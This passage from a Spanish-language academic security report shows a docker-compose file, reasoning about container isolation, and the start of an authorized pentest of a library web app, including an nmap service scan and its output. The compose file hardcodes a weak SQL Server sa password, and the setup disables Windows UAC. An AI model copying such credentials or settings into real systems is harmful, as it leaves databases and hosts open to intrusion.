        image: mcr.microsoft.com/mssql/server:2017-CU8-ubuntu
        container_name: 'database'
        environment:
          - SA_PASSWORD=Password21
          - ACCEPT_EULA=Y
        volumes: 
          - db-data:/var/opt/mssql
        ports:
          - '1433:1433'
        expose:
          - 1433
      
      base: 
        build:
          context: ./core
          dockerfile: Dockerfile
        depends_on: 
          - database
        links:
          - database
        environment:      
          # - ASPNETCORE_Environment=Development
          - MSSQL_SERVER=database,1433
          - MSSQL_DB=thinkagro
          - MSSQL_USER=sa
          - MSSQL_PASSWORD=Password21
        volumes:
          - ./core:/app
          - ./storage:/storage
        ports: 
          - 8081:8081
    volumes:
      db-data:
\end{minted}

Sin embargo, al poco avanzar, nos topamos con el siguiente problema de la Figura \ref{asd}. No tenemos manera de acceder a la aplicación. Esto es porque para poder hacer uso de los recursos de esta aplicación es necesario obtener una credencial que solo es accesible por medio de un servicio que ya no está disponible.

Esta credencial tiene múltiples usos, entre ellas también es la responsable de activar los servicios disponibles del backend. Este punto es muy importante ya que sin esas credenciales, tampoco es posible cargar rutas, desconectando completamente la API. 

Eso nos imposibilita de ejecutar cualquier tipo de prueba de análisis dinámico, ya que por un lado, tenemos una aplicación SPA, la cual es incompatible con todas las herramientas de análisis dinámico, mientras que por otro lado, incluso tomando en cuenta que está el mecanismo para poder ejecutar el crawl, este entrega error 400 debido que que faltan las credenciales para este acceso.

\begin{figure}
	\centering
	
\includegraphics[width=.9\textwidth]{fragments/thinkno.png}
    \caption{ Pantalla de carga de think agro}
    \label{asd}
\end{figure}

Este hecho, hace que las pruebas de análisis dinámico y pentesting queden invalidados para el examen de esta aplicación. Lamentablemente, esta es la única aplicación de mi autoría desarrollada dentro de mi período de estudiante el cual cumple con los requisitos para ser evaluada. Por otro lado, para poder montar una versión de producción, es necesario contar con una subscripción de AWS con servicios de Route53, RDS, EC2, ElasticBeanstalk, CertificateManager, WAF y VPC activas, las cuales no es posible obtener dentro del marco de este trabajo.

Sin embargo, esto tampoco cambiaría el panorama ya que para efectos concretos, todo el tráfico es manejado por medio de un balanceador de carga, el cual impide la conexión a otros servicios desde fuera de la red interna. Por último, todas las conexiones entre los sistemas previamente existentes son realizadas desde la plataforma desarrollada y no hacia esta, lo cual impide que un sistema externo esté enviando información, ergo, no tiene otros puntos de entrada.

Una de las ventajas que ofrece tener todo en contenedores (independiente de lo presentado anteriormente) es una separación dura de los privilegios de ejecución de cada programa. Para esto, como descisión de despliegue se utiliza la premisa del mínimo permiso disponible y de contenedor atómico. Esto quiere decir que un contenedor solo tiene los permisos mínimos para funcionar, los accesos minimos disponibles. Adicionalmente, en caso de comportamiento anormal, este es automáticamente reiniciado y su contenido transiente eliminado. 

Esto evita que un payload pueda quedar viviendo por un tiempo prolongado, además por parte del balanceador de carga, como la aplicación es stateless y no tiene preferencia de alocación por cliente, se vuelve imposible ejecutar una secuencia seguida de comandos sobre una misma máquina. Esto fue decidido así para poder ofrecer una alternativa de bajo costo a la seguridad en la ejecución.

Por último, en caso de que un contenedor esté comprometido, este no es capaz de alcanzar con sus privilegios a otro contenedor del mismo tipo por estar aislado, y tampoco es capaz de alcancar otros elementos de red por medio de otros procesos.

Estos fueron los argumentos que motivaron el despliegue sobre contenedores y el desarrollo de una aplicación stateless por sobre una implementación monolítica stateful.
\section{Pentesting}
Por acuerdo mutuo del cliente, no vamos a indagar exactamente en la arquitectura de la aplicación, ya que a nosotros solo se nos fue presentada la aplicación como tal, enwi, una herramienta de administración para bibliotecas\footnote{\url{https://github.com/thejudge1308/Enwi_web/}}. Esta fue ofrecida voluntariamente a fin de compartir la información obtenida en esta etapa.

El proceso de instalación y levantamiento consiste en los siguientes elementos en pos de replicar el ambiente de pruebas de la aplicación al momento de su desarrollo:

\begin{itemize}
    \item Maquina Windows 10 build 17763.1
    \item XAMPP v 7.4.8
\end{itemize}

La instalación de XAMPP requiere la desactivación de UAC en Windows, de lo contrario el servidor no es capaz de arrancar.  En estas pruebas no se considera la instalación ni la ejecucion de los módulos de escritorio, ya que estos fueron auditados previamente por el cliente. Adicionalmente, el módulo web de consultas se espera que no tenga permisos de ningun tipo para poder realizar acciones mas alla de consultas sobre la existencia de libros o estados de usuarios de la biblioteca, debido a que es de caracter público.

Las pruebas fueron realizadas desde la red interna, con una máquina diferente a la que se está utilizando para levantar los servicios. El levantamiento del ambiente fue en conjunto al cliente para replicar el estado original.

\begin{figure}
	\centering
	
\includegraphics[width=.9\textwidth]{fragments/pentest/app1.png}
    \caption{ Pantalla de inicio de enwi }
\end{figure}

\begin{figure}
	\centering
	
\includegraphics[width=.9\textwidth]{fragments/pentest/app2.png}
    \caption{ Pantalla de búsqueda de libros de enwi }
\end{figure}

\begin{figure}
	\centering
	
\includegraphics[width=.9\textwidth]{fragments/pentest/app3.png}
    \caption{ Resultado de busqueda de enwi }
\end{figure}

\begin{figure}
	\centering
	
\includegraphics[width=.9\textwidth]{fragments/pentest/app4.png}
    \caption{ Headers de resultado de busqueda en enwi }
\end{figure}

\subsection{nmap}

\begin{minted}[linenos,tabsize=2,breaklines,fontsize=\scriptsize]{bash}
nmap -oX outputfile.xml  -p- -sV --version-intensity 5 192.168.0.233 
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-05 21:30 -04
Nmap scan report for DESKTOP-AKI7L48.lan (192.168.0.233)
Host is up (0.0014s latency).
Not shown: 65532 filtered ports
PORT     STATE SERVICE  VERSION
80/tcp   open  http     Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.8)
443/tcp  open  ssl/http Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.8)
3306/tcp open  mysql?
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3306-TCP:V=7.80%I=5%D=8/5%Time=5F2B5DAD%P=x86_64-pc-linux-gnu%r(NUL
SF:L,4D,"I\0\0\x01\xffj\x04Host\x20'fu-no-isan\.lan'\x20is\x20not\x20allow
SF:ed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server");

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 151.59 seconds
\end{minted}


\begin{figure}
	\centering
